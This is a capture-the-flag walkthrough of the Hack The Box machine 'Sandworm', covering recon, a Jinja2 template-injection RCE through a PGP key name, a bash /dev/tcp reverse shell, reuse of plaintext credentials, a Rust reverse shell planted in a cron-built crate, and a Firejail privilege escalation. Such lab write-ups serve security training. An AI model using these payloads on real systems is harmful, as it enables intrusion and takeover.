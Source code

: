 # Sandworm

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Sandworm
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration


<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.218

Discovered open port 443/tcp on 10.10.11.218
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.218

22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>gobuster dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'https://ssa.htb/' --no-tls-validation

/contact              (Status: 200) [Size: 3543]
/about                (Status: 200) [Size: 5584]
/login                (Status: 200) [Size: 4392]
/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]
/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
/guide                (Status: 200) [Size: 9043]
/pgp                  (Status: 200) [Size: 3187]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/process              (Status: 405) [Size: 153]
```
</details>

## Foothold

### Web → `atlas` *(Firejail)*

#### Searching for Vulnerabilities

- the footer of the page says "Powered by Flask"
- the `/guide`-page has a section to verify signed PGP-messages
- when generating a new PGP keypair using `gpg --full-generate-key`, we can enter a name, an email-address and a comment; this information is displayed in a pop-up after successful verification by the site
- the output is not escaped, therefore a **Jinja2 template injection** is possible
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
    - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping

#### Exploitation

1. Generate a GPG keypair using `gpg --full-generate-key`, set the name to the following value:
    ```
    {{''.__class__.mro()[-1].__subclasses__()[439](request.form.input,shell=True,stdout=-1).communicate()[0].strip()}}
    ```
    - `‘'.__class__.mro()[-1]` gives access to `<class 'object'>`, 
    - subclass 439 is `<class 'subprocess.Popen'>`, which allows us to do a RCE
    - `request.form.input` gives us access to the POST parameter `input` of the request
    - → the value of the POST parameter will be executed

2. Export the public key and enter it on the `/guide`-page in the verification form:
    ```bash
    gpg --armor --export <email> > mykey.gpg
    ```
    - `<email>` is the email that was specified during key generation

3. Sign any message using the generated keypair and enter it on the website:
    ```
    gpg --armor --clear-sign -u <email> -o <output file> <message>
    ```

4. start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

5. Verify the signed message using the form, but intercept the request using burpsuite. Add the POST parameter `input` with the url-encoded payload for a reverse shell:
    ```bash
    bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'
    # url-encoded as a POST paramter:
    &input=%62%61%73%68%20%2d%63%20%27...
    ```

6. You should now have reverse shell access for the user `atlas`.
    - available commands very limited, hardly any write permissions
    - `cat /proc/1/cgroup` shows that we are in a [Firejail](https://github.com/netblue30/firejail) environment


## Lateral Movement

### `atlas` → `silentobserver` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` shows, that there is another user `silentobserver` with a home directory

#### Exploitation

1. `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json` contains credentials for user `silentobserver`:
    ```
    "auth": {
            "password": "quietLiketheWind22",
            "type": null,
            "username": "silentobserver"
        },
    ```

2. With these credentials, an SSH connection is possible for the user `silentobserver`, who has the user flag in his home directory 🚩
    - user is still in `jailer` group


### `silentobserver` → `atlas` *(unrestricted)*

#### Searching for Vulnerabilities

- the `/opt/tipnet/target/debug/tipnet` binary has the SUID bit set for user `atlas`
- the source code for `tipnet` can be found at `/opt/tipnet/src/main.rs`
- `main.rs` shows, that crate `/opt/crates/logger/src/logger.rs` gets imported
- `silentobserver` has write access to `logger.rs`
- there is a cron job running, which periodically compiles and runs `tipnet`
 
#### Exploitation

1. Edit `/opt/crates/logger/src/logger.rs` and insert the code for a reverse shell
    - https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
    - <details>
        <summary>modified logger.rs</summary>
        
        ```rust
        extern crate chrono;

        use std::fs::OpenOptions;
        use std::io::Write;
        use chrono::prelude::*;
        use std::net::TcpStream;
        use std::os::unix::io::{AsRawFd, FromRawFd};
        use std::process::{Command, Stdio};

        pub fn log(user: &str, query: &str, justification: &str) {
                let s = TcpStream::connect("<your ip>:9002").unwrap();
            let fd = s.as_raw_fd();
            Command::new("/bin/sh")
                .arg("-i")
                .stdin(unsafe { Stdio::from_raw_fd(fd) })
                .stdout(unsafe { Stdio::from_raw_fd(fd) })
                .stderr(unsafe { Stdio::from_raw_fd(fd) })
                .spawn()
                .unwrap()
                .wait()
                .unwrap();

            let now = Local::now();
            let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
            let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

            let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
                Ok(file) => file,
                Err(e) => {
                    println!("Error opening log file: {}", e);
                    return;
                }
            };

            if let Err(e) = file.write_all(log_message.as_bytes()) {
                println!("Error writing to log file: {}", e);
            }
        }
        ```
        
        </details>


2. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

3. After a while, we get reverse shell access for `atlas` in an unrestricted environment.

## Privilege Escalation

### `atlas` → `root` 🏁

#### Searching for Vulnerabilities

- An [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) exists for    Firejail 0.9.68, which can be used for privilege escalation

#### Exploitation

1. Open a second reverse shell for `atlas` like explained above.
2. Download the [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) on the target machine, e.g. using an python http server and wget.
3. Run the exploit using `chmod +x exploit.py && python3 exploit.py`.
4. In the second reverse shell, first run `firejail --join=<id>` *(the exploit will tell you the exact command)*, then `su -`.
5. We now have shell access for `root` and can claim the root flag! 🏁

